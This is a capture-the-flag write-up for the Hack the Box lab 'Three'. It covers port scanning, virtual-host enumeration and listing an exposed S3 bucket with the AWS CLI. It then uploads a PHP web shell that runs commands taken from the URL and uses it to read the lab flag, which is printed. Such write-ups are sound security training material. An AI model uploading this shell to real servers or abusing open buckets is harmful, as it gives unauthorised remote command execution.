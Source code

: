 # Writeup "Three"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                             </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/starting-point                </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-three-discussion </td></tr>
   <tr><td><b> type       </b></td><td> starting-point/tier-1                                    </td></tr>
   <tr><td><b> difficulty </b></td><td> very easy                                                </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-08-12                                               </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-08-12                                               </td></tr>
</table>

## Description

> N/A

## Solution

---

> Task 1: How many TCP ports are open?  
> Hint: `*`

We perform a portscan using `sudo nmap -sV -sC -v $IP` which discovers two open ports, both TCP: ports 22 (ssh) and 80 (http).

---

> Task 2: What is the domain of the email address provided in the "Contact" section of the website?  
> Hint: `**********.**b`

We open the provided IP address in our browser and scroll down to the contact section. The e-mail given is `mail@thetoppers.htb`.

---

> Task 3: In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?  
> Hint: `/***/****s`

Correct answer is `/etc/hosts`.

---

> Task 4: Which sub-domain is discovered during further enumeration?  
> Hint: `**.**********.**b`

We start by using `gobuster dns` which yields no results however; so, we start to research other `gobuster` options. It turns out that the correct command to use in this case is

```
gobuster vhost --url "thetoppers.htb" --wordlist /usr/share/wordlists/amass/subdomains.lst
```

This gives us several subdomains with error codes `400` and one subdomain with error code `404`: `s3.thetoppers.htb`

---

> Task 5: Which service is running on the discovered sub-domain?  
> Hint: `****** *3`

The `nmap` output gives us no hints, so we do a web search for `s3 service`. We find a page describing _"Amazon S3"_, a data storage service[^1]. We also find an article describing a vulnerability called _"Sub-Domain Take Over"_[^2].

---

> Task 6: Which command line utility can be used to interact with the service running on the discovered sub-domain?  
> Hint: `*****i`

A web search for _"interact with amazon s3"_ shows a lot of results referencing a tool named "AWS CLI".

---

> Task 7: Which command is used to set up the AWS CLI installation?  
> Hint: `*** ********e`

We find a page describing how to install AWS CLI[^3] and how to to the initial setup[^4], where the command `aws configure` is used for a quick setup of the AWS CLI installation.

---

> Task 8: What is the command used by the above utility to list all of the S3 buckets?  
> Hint: `*** ** *s`

Reading further through the Amazon S3 manual, we find the command for listing buckets and objects: `aws s3 ls`[^5].

---

> Task 9: This server is configured to run files written in what web scripting language?  
> Hint: `***`

In the manual, we find a page describing scripting-related commands[^6]. One command allows us to list all objects in a certain bucket:

```
$ aws s3api list-objects --endpoint=http://s3.thetoppers.htb --bucket thetoppers.htb

None
CONTENTS        "d41d8cd98f00b204e9800998ecf8427e"      .htaccess       2022-08-12T14:23:07+00:00       0       STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "dfb9777b31be8fabb294b983923643b1"      images/band.jpg 2022-08-12T14:23:07+00:00       90172   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "2b4717d134a1054878e8c4739a2a36c5"      images/band2.jpg        2022-08-12T14:23:07+00:00       282848  STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "06a429a7bb58cc67108ab25016bd7372"      images/band3.jpg        2022-08-12T14:23:08+00:00       2208869 STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "c636245ad5b87088bd2ded8b0041be65"      images/final.jpg        2022-08-12T14:23:07+00:00       77206   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "fa600c2eb22b00d611ff32176e2ddc8f"      images/mem1.jpg 2022-08-12T14:23:07+00:00       69170   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "9e8d050b41fb5a7009d253624ff1148d"      images/mem2.jpg 2022-08-12T14:23:07+00:00       39270   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "ba63bc1fb60af4a6cdac15085d7bd9d1"      images/mem3.jpg 2022-08-12T14:23:07+00:00       64347   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
CONTENTS        "fb333c634786553e5431192eb9e3015e"      index.php       2022-08-12T14:23:07+00:00       11952   STANDARD
OWNER   webfile 75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a
```

We can see that there is a _PHP_ file, so this should be the right answer.

---

> Submit flag  
> Hint: `***`

After a lot of trial and error, we find a command to download all files from the bucket to the local file system:

```
aws --endpoint=http://s3.thetoppers.htb s3 cp s3://thetoppers.htb . --recursive
```

However, those files do not contain any useful information for us. So we decide to use the command in the other way and upload a PHP shell:

``` php
<form action="rce.php" method="get">
  <input type="text" id="cmd" name="cmd" value='<?php print($_GET["cmd"]); ?>' autofocus 
    onfocus="var temp_value=this.value; this.value=''; this.value=temp_value" />
</form>
<hr />
<pre>
  <?php system($_GET["cmd"]); ?>
</pre>
```

We can now open this shell by navigating to `http://thetoppers.htb/rce.php`. Using the command `find / -name *flag*` we find the location of the flag:

<p align="center">
   <img src="includes/three-01.png" />
</p>

Using the command `cat /var/www/flag.txt` we can get the flag:

```
a980d99281a28d638ac68b9bf9453c2b
```

### Sources

[^1]: https://docs.aws.amazon.com/AmazonS3/latest/userguide/Welcome.html
[^2]: https://towardsaws.com/subdomain-takeover-aws-s3-bucket-4699815d1b62?gi=70ed3207e2b1
[^3]: https://docs.aws.amazon.com/cli/latest/userguide/getting-started-install.html
[^4]: https://docs.aws.amazon.com/cli/latest/userguide/getting-started-quickstart.html
[^5]: https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3-commands.html#using-s3-commands-listing-buckets
[^6]: https://docs.aws.amazon.com/cli/latest/userguide/cli-services-s3-commands.html#using-s3-commands-listing-buckets
[^7]: 
[^8]: 
[^9]: 
[^10]: 
[^11]: 
[^12]: 
[^13]: 
[^14]: 
